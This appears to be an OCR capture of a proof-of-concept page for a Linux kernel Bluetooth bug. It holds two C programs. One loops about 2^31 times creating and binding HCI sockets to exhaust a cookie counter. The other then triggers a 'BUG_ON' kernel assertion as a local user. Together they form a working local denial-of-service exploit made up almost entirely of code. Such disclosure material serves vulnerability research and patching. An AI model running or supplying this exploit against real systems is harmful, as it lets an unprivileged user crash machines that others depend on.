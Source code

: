 ```c
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include "lib/bluetooth.h"
#include "lib/hci.h"


int main(){

        int fd;
        struct hci_dev_info di = {0};
        di.dev_id = 0;
        struct sockaddr_hci haddr = {0};
        haddr.hci_family = AF_BLUETOOTH;
        haddr.hci_channel=2; // HCI_CHANNEL_MONITOR
        haddr.hci_dev = 0xffff; // HCI_DEV_NONE
        for(uint64_t i = 0; i < 2147483648;i++){
			fd = socket(AF_BLUETOOTH, SOCK_RAW, BTPROTO_HCI);
			ioctl(fd, HCIGETDEVINFO, &di);
			bind(fd, (struct sockaddr *)&haddr, sizeof(struct
	sockaddr_hci));
			close(fd);
        }
}
```

The `"BUG_ON"` failed assertion trigger, run as a local user after 2^31-1
HCI sockets' cookies were generated:

```c
// SPDX-License-Identifier: GPL-2.0-or-later
/*
 *
 *  BlueZ - Bluetooth protocol stack for Linux
 *
 *  Copyright (C) 2000-2001  Qualcomm Incorporated
 *  Copyright (C) 2002-2003  Maxim Krasnyansky <maxk@qualcomm.com>
 *  Copyright (C) 2002-2010  Marcel Holtmann <marcel@holtmann.org>
 *
 *
 */

#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include "lib/bluetooth.h"
#include "lib/hci.h"

int main(){
        struct hci_dev_info di = {0};
        di.dev_id = 0;
        int fd = socket(AF_BLUETOOTH, SOCK_RAW, BTPROTO_HCI);
        ioctl(fd, HCIGETDEVINFO, &di);
        close(fd);

}
```
